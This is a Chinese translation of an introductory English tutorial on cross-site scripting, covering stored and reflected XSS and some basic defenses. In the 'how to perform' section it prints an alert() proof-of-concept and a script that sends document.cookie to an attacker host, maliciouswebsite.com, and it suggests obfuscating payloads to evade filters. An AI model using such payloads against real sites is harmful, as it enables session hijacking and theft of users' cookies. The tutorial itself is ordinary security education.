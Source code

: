 # 跨站点脚本简介(XSS)

> 原文：<https://medium.com/geekculture/introduction-to-cross-site-scripting-xss-e2c001ad9132?source=collection_archive---------6----------------------->

本文为试图学习跨站点脚本(或 XSS)的人提供了一个很好的介绍。你不需要成为一个专家来跟随。然而，为了从本文中获得最大收益，您需要了解一些关于 web 如何工作的基础知识。

我们将首先学习什么是跨站点脚本以及它的类型。然后，我们将探索进行 XSS 攻击的过程。最后，我们将列出一些好的做法，我们可以遵循，以防止它。

![](img/eadb9d03c6b74fe0cad024843b03a8a0.png)

*免责声明:请注意，本文中教授的信息不会用于合法和道德目的之外的任何目的。和我所有的其他文章一样，这里的目标是进一步扩展安全文化，并帮助防御和保护信息系统免受恶意行为者的攻击。*

所以，话虽如此，我们开始吧！

# 什么是跨站点脚本(XSS)？

**跨站脚本** ( **XSS** )是一种影响 web 应用的漏洞。它允许攻击者向网站发送恶意代码。然后，相同的代码被发送给其他用户，在他们的浏览器上执行。

一旦成功，XSS 攻击可以为攻击者提供来自其他用户浏览器的敏感信息。例如，攻击者可以检索用户 cookies 和会话令牌，然后利用它们来执行会话劫持。

这里有一个插图，可以帮助您更好地理解攻击的过程。

![](img/2164827994c8a6a08a49e79e859c0e02.png)

考虑到最终用户通常信任易受攻击的网站，如果攻击发生在他们身上，他们会毫无防备。

# XSS 类型

跨站脚本攻击主要有两种:**持久**和**反射**。

## 执着的 XSS

一种**持续型**(也叫**储存型** ) XSS 攻击是两种类型中最危险的。当攻击者提供的恶意脚本存储在 web 应用程序的服务器端时，就会发生这种情况。然后，每当其他用户请求与之相关的内容时，该代码就会被发送给他们。

例如，注释部分是一个可能出现持久 XSS 的地方。这是因为网站将评论存储在服务器端的数据库中，用户每次访问该部分时，网站都会检索并显示这些评论。

上图是 XSS 持续攻击的一个例子。

## 反映了 XSS

一次**反射** XSS 攻击是两种类型中最不危险的。在反射 XSS 场景中，恶意脚本被发送到 web 应用程序，然后呈现给提交请求的用户，并且只呈现给该用户。网站不在服务器端存储任何东西。

反射 XSS 攻击可能发生的一个很好的例子是搜索表单。因为只有在搜索表单中提供字符串的用户才能在响应中看到该字符串，所以攻击者无法执行持续的 XSS 攻击。他们所能做的最糟糕的事情就是发动一次反射式的 XSS 袭击。

这乍一看似乎并不危险，但是如果恶意行为者将它与网络钓鱼攻击结合起来，他们就可以利用它从其他用户那里检索敏感信息。

# 如何执行跨站点脚本攻击

现在我们知道了什么是跨站点脚本攻击，让我们看看我们如何执行一个。

首先，我们需要确定我们的目标网站是否容易受到 XSS 的攻击。要做到这一点，我们需要考虑网站上用户可以提供输入的所有方面。

对于每个点，我们可以运行一个概念验证有效负载，以确认我们是否存在 XSS 漏洞。大多数情况下，我们可以在脚本中使用“*alert()*”Javascript 函数。

```
<script>alert(“XSS!”);</script>
```

如果该网站易受 XSS 攻击，则会弹出一条带有“ *XSS”的警告消息！*“消息。这就是我们需要确认目标脆弱性的所有证据。

您应该注意，大多数网站可能会检测并阻止上述有效载荷。这并不意味着这些网站不容易受到攻击，这只是意味着你需要混淆有效载荷，以逃避检测。

一旦我们确定了网站的漏洞，您就可以运行一个有效负载，将用户的 cookie 发送到您控制的网页。

```
<script>
document.write('<img src="http://www.maliciouswebsite.com/?cookie='+document.cookie()+'" \>');
</script>
```

上述有效负载将尝试从攻击者控制的网站加载图像。图像的链接包含目标用户的 cookie 值。所以，当它收到这个请求时，恶意网站会记录这个值。

然后，攻击者可以检查日志来检索连接到该网站的所有用户的 cookies。

# 抵御 XSS

这里有一些好的做法，你应该遵循，以保护您的网站免受 XSS 攻击:

*   web 应用程序应该总是**验证用户输入**，也就是说，验证用户提供的每一个数据。这个过程包括确保所提供的输入是预期的格式。例如，如果您在输入字段中询问用户的年龄，那么您应该期望提供的数据是小于 120 的正整数。任何超出这个范围的值都不应该被接受。
*   Web 应用程序也可以使用**编码**来转义某些不应该由 web 浏览器处理的字符。例如，如果我们想将用户提供的输入嵌入到 HTML 元素中，我们需要对它进行 HTML 编码。也就是说，我们需要将 HTML 保留字符转换成 HTML 实体(例如，'<'将被转换成'&lt；').同样，如果我们想将用户提供的输入嵌入到 Javascript 数据值中，我们需要对它进行 Javascript 编码。
*   HTTP 头也可以提供一个很好的防御 XSS 的层。在响应头中使用“*内容类型*和“ *X 内容类型选项*”可以限制网页上脚本的执行。

我们已经在这篇文章中介绍了要点。现在，您应该对跨站点脚本有了基本的了解。

然而，XSS 还有比我们在这里所介绍的更多的东西。所以你不应该满足。至少现在还没有。我邀请你在我们这里讨论的基础上，从网络上的其他资源中学习。例如， [OWASP](https://owasp.org/www-community/attacks/xss/) 和 [PortSwigger](https://portswigger.net/web-security/cross-site-scripting) 网站为这个主题提供了很好的参考。

*原载于 2021 年 8 月 13 日 https://patchthenet.com*[](https://patchthenet.com/articles/introduction-to-cross-site-scripting-xss/)**。**